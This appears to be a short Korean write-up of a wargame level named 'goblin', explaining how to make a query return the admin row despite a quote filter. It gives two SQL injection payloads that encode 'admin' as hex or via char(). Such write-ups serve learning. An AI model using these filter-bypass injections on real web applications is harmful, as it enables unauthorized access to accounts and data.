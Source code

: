 # goblin

id가 admin이면 해결되며, 쿼터를 필터링 하고 있다.   
<br/>

* hex값으로 입력
* char 함수 이용
<br/>

```
?no=1234 or id=0x61646d696e
```   
<br/>


```
?no=1234 or id=char(97,100,109,105,110)
```
